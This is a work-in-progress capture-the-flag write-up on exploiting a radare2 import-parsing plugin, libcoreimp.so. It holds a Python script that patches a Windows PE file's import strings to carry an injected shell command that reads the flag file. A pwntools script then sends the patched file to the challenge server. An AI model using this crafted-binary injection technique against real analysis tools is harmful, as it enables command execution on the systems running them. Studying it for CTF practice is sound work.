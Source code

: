 NOTE: This writeup is still WIP. Here are some notes I took while solving the challenge, as well as any solve script(s)

* Reversed `libcoreimp.so`
* Possible attack vectors
	* overwrite command buffer using array OOB write or smth
	* perhaps the `iij` command has some side effects that let us leak the flag? (unlikely)
* BFS
	* read r2 source code to find if theres a way to hijack the `iij` implementation
	* search up windows PE specification & stuff, see if theres anything interesting for external loading
	* nothing
* What the program does
	* Accept a PE file
	* use r2 to extract library dependencies as JSON
	* builds a string of all dependencies in the format `<libraryA>.<functionA>,<libraryB>.<functionB>,...`
	* returns the MD5 hash of the above string
* Ok actually there is pwn vuln(s)
	* `strpbrk(".", ".dll")` returns the string `"."` for some reason. Then integer underflow.
* Research on PIE file format, how to control libname, name and stuff
	* https://maskray.me/blog/2023-12-03-linker-notes-on-pe-coff
	* https://opensecuritytraining.info/LifeOfBinaries.html
	* https://www.youtube.com/watch?v=rbN53Xh21_g&list=PLUFkSN0XLZ-n_Na6jwqopTt1Ki57vMIc3&index=12 (didnt watch)
* Seems like too much trouble
* In the end I decided to just edit the strings in an existing executable file, just replace the extra with null bytes to make it shorter.
* compile empty c program with mingw64 to produce initial pe file. I'll use a python script to patch this file with the desired strings. (see below for final script)
* gdb debugging
	* `gdb --args r2 -q -c imp -e bin.relocs.apply=true a.exe`
	* `catch load libcoreimp.so`
	* `r`
	* `b *r_cmd_imp_client+539`
	* b *r_cmd_imp_client+381 # after json load
* after debugging realised the `==` check is failing (after strpbrk), need to add `a` to front of string, so the module name is:
	* `a.`
* TODO: elaborate on exploiting the vuln

The following is my final patch script:

```python:patch.py
with open('a.exe', 'rb') as f:
    data = f.read()


def replace_single(bin, from_, to):
    occurrences = bin.count(from_)
    # assert occurrences == 1, f'Ambiguous replace: {from_}. Found {occurrences}'
    assert len(from_) == len(
        to), 'Can only replace with string of the same length'
    return bin.replace(from_, to, 1)


i = 0x3894
size = len('KERNEL32.dll')
data = data[:i] + \
    b'a.\x00\x00' + b'\x00'*8 + data[i+size:]

data = replace_single(data, b'msvcrt.dll', b'a.\x00crt.dll')

data = replace_single(data, b'__initenv',
                      b'__init\x00\x00\x00')  # -9
data = replace_single(data, b'__iob_func',
                      b'A"' + b'\x00' * 8)

# payload = b''.join((
#     # move offset back. Now offset is 1 byte after the hash.
#     b'$',
#     # overwrite the command. leave space for the hash
#     b'`cat ../flag.txt`>out',
#     # null byte
#     b'\x00'
# ))

# j = 0x3682

# data = data[:j] + payload + data[j+len(payload):]

data = replace_single(data, b'__set_app_type', b'__s\x00t_app_type')

i = data.find(b'__setusermatherr')
print(hex(i))
payload = b'$(cat /app/flag.txt)>out#AAAAAAA\x00'
data = data[:i] + payload + data[i+len(payload):]

# data = replace_single(data, b'_amsg_exit', b' > out#\x00\x00\x00')

to_remove = [
    # b'__C_specific_handler',
    # b'__getmainargs',
    # b'__initenv',
    # b'__iob_func',
    # b'__set_app_type',
    # b'__setusermatherr',
    # b'_amsg_exit',
    b'_cexit',
    b'_commode',
    b'_fmode',
    b'_initterm',
    b'_onexit',
    b'abort',
    b'calloc',
    b'exit',
    b'fprintf',
    b'free',
    b'fwrite',
    b'malloc',
    b'memcpy',
    b'signal',
    b'strlen',
    b'strncmp',
    b'vfprintf',
]
for str in to_remove:
    data = replace_single(data, str, b'\x00' + str[1:])

with open('a1.exe', 'wb') as f:
    f.write(data)
```

Exploit script:

```python:s.py
from pwn import *
import base64

with open('a1.exe', 'rb') as f:
    data = f.read()
    payload = base64.b64encode(data)

t = remote('chals.tisc24.ctf.sg', 53719)
t.sendlineafter(b'Input PE file (base64 encoded): ', payload)
t.interactive()
```
